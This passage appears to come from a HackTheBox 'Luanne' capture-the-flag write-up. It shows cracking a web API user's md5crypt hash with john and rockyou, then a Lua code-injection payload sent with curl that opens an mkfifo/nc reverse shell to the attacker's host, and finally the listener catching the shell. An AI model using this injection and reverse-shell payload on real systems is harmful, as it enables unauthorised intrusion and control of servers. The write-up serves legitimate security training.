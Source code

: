 ![](https://github.com/Leo-2807/Writeups/blob/main/images/luanne12.png)

These are the creds that we have `webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0`

We can use john to crack the hash.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/luanne]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash       
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest       (webapi_user)
1g 0:00:00:00 DONE (2021-10-03 04:36) 10.00g/s 29760p/s 29760c/s 29760C/s secrets..lance
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
The creds are `webapi_user:iamthebest`

Now we are able to loginto the weatherforecast api. But it leads nowhere.

## SHELL

Since we have code execution, we can try to get a reverse shell.
On searching for openbsd reverse shell I found this [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

On trying to get a shell through the web browser the command got executed but nothing came back.
So I used curl to get a reverse shell.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/luanne]
└─$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' 
```
And I got a reverse shell

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/luanne]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.218] 65521
sh: can't access tty; job control turned off
$
```
